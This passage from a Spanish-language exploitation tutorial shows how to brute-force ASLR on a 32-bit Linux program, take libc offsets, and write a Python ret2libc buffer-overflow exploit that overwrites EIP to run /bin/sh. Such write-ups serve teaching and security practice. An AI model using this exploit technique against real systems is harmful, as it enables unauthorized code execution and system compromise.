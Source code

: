 Por lo tanto deberemos de hacer "fuerza bruta" ejecutando el programa con el exploit como argumento varias veces para que haya colisiones en la memoria y en el momento en el que el programa apunte a la base de libc que nosotros elijamos poder calcular los offsets y obtener las direcciones reales y que el exploit sea exitose haciendo una llamada al sistema para que nos ejecute una /bin/sh.

> Los offsets son las direcciones de la memoria necesarias para realizar la operatoria con la dirección base de libc y obtener las direcciones reales de las anteriores funciones.
{: .prompt-info }

Para obtener los offsets de system, exit y bin_sh deberemos de ejecutar los siguientes comandos:

![](http://127.0.0.1:4000/assets/img/favicons/AslrBypass/offsets.png)

readelf es una herramienta de línea de comandos en sistemas Linux y Unix que se utiliza para analizar archivos ejecutables y objetos en formato ELF (Executable and Linkable Format). Los archivos ELF son un formato común para programas y bibliotecas en sistemas operativos basados en Unix, como Linux.

Con este comando hemos conseguido obtener el offset de &nbsp;`system`&nbsp; y &nbsp;`exit`&nbsp;.

Para obtener el último offset que necesitamos deberemos de ejecutar el siguiente comando:

![](http://127.0.0.1:4000/assets/img/favicons/AslrBypass/strings.png)

Una vez con todos los offsets obtenidos prosigamos con la creación del exploit.

### Desarrollo del exploit

Esta vez el exploit sera en Python3

El funcionamiento a tener en mente para nuestro exploit sera el siguiente.

```python
# Obtener una base de libc
# Obtener offsets
# Calcular direccione reales
EIP = system_addr + exit_addr + bin_sh_addr
```

Por lo tanto con las direcciones de obtuvimos anteriormente y con el tipo de ataque en mente lo único que queda es programar el exploit.

```python
#!/usr/bin/python3

import sys
from struct import pack
from subprocess import call

if __name__ == '__main__':

	# EIP -> system + exit + bin_sh

	base_libc_addr = 0xb7d4b000

	system_addr_off = 0x0003adb0
	exit_addr_off = 0x0002e9e0
	bin_sh_addr_off = 0x0015bb2b

	system_addr = pack("<I", system_addr_off + base_libc_addr)
	exit_addr = pack("<I", exit_addr_off + base_libc_addr)
	bin_sh_addr = pack("<I", bin_sh_addr_off + base_libc_addr)

	offset = 76
	junk = b"A"*offset
	EIP = system_addr + exit_addr + bin_sh_addr

	payload = junk + EIP

```